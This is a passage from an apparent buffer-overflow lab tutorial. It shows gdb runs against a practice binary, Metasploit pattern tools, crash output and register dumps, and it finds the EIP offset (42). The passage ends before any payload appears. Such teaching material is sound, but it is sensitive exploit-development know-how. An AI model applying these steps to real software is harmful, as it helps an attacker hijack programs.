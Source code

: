 We noticed that the EIP is overwritten with ```A```.  That means, we can control the EIP then.  Once EIP can be controlled, we can run any code from that point.  It is because EIP Instruction Pointer Register always contains the address of the next instruction to be executed.

Now, we need to find out how many junk characters to cause the crash.  We use the ```pattern_create.rb``` to create a unique pattern.

Open another terminal and run :

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 50 > b.txt
```

We feed the unique pattern to the program.

```bash
(gdb) r < b.txt
```
```bash
(gdb) r < b.txt
Starting program: /root/Documents/vuln < b.txt
What is your name?
Hey Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab, you're harmless, aren't you?
 
Program received signal SIGSEGV, Segmentation fault.
0x41346241 in ?? ()
```

The program is crashed again as expected.

We check the registers again and found out that EIP is overwritten with ```0x41346241```.

```bash
(gdb) info registers
```
```bash
(gdb)  info registers
eax            0x55                0x55
ecx            0x1f                0x1f
edx            0xf7fa9890          0xf7fa9890
ebx            0x62413162          0x62413162
esp            0xffffd330          0xffffd330
ebp            0x33624132          0x33624132
esi            0xf7fa8000          0xf7fa8000
edi            0xf7fa8000          0xf7fa8000
eip            0x41346241          0x41346241
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
(gdb)
```

We use the tool namely ```pattern_offset.rb``` to find out the offset.  The offset is ```42``` for this case.
